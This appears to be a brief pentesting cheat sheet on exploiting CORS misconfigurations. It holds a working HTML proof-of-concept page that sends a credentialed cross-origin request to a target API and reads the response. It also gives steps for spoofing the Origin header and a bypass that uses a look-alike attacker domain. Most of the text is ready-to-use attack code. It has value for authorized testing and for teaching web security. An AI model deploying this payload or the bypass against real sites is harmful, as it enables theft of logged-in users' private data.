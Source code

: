 # CORS

Search for `Allow-control`

add `Origin` header with attacker site in request

```
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://api.company.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

## Bypass 

theirdomain.com --> anythingheretheirdomain.com
add Origin: theirdomain.com by changing match and replace 
